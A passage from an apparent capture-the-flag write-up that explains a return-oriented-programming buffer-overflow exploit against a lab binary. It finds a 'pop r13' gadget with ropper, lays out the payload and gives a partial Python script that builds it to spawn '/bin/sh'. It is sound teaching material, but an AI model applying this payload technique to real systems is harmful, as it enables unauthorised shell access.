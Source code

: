 This is where we can utilize the ROP exploitation method. If we can find a ROP *gadget* (machine instruction sequence accessible by the program that ends with a [return instruction](https://www.felixcloutier.com/x86/ret)) that can _pop **R13**_ off of the call stack, we can write the address of the **system** function to the register and then jump to it in the **test** function. We could manually search for a gadget but a better option would be to use the python tool [ropper](https://scoding.de/ropper/). Using this tool within gdb-gef we can easily search for a gadget containing "*pop r13*" with the command *[ropper --search "pop r13"](https://gef.readthedocs.io/en/master/commands/ropper/)*.

![](/images/safe-pwn/pics/20.png#center)

ropper has found a gadget we can use at the virtual address *0x401206*. This gadget not only pops **R13**, but also pops registers **R14** and **R15** before it executes the return instruction. These extra instruction will not be an issue, we can write *0x0* to those registers as they will not be used in our exploit.

******

## Testing Our Exploit Method

Let's list out what we need to send to the program in order to set up a shell command call for */bin/sh*:

>
- _112 bytes of junk to fill the input buffer_
- _8 byte string for our **system** argument to overwrite **RBP**_
- _Address of our ROP gadget to pop registers **R13**, **R14**, **R15** and then **ret** to overwrite **RSP**_
- _Address of the **system** function to write to **R13**_
- _0x0 to write to **R14**_
- _0x0 to write to **R15**_
- _Address of the **test** function to write to **RSP**_

\\
We will adapt our previous python test function to include our new payload instructions and write the data to the file *payload.txt*.

```python
#!/usr/bin/env python3
"""safe_pwn.py"""

import struct

# payload
def exploit() -> bytes:
    """Build our payload."""
    payload: bytes = (b"\x41" * 112)  # overflow junk
    payload += b"/bin/sh\x00"  # rbp : string argument for system function
    payload += struct.pack("<q", 0x401206)  # pop r13 ; pop r14 ; pop r15 ; ret
    payload += struct.pack("<q", 0x401040)  # r13 -> system
    payload += struct.pack("<q", 0x000000)  # r14 : 0x0
    payload += struct.pack("<q", 0x000000)  # r15 : 0x0
    payload += struct.pack("<q", 0x401152)  # test function

    print("Our payload:\n", payload)
    with open("payload.txt", "wb") as payload_out:
```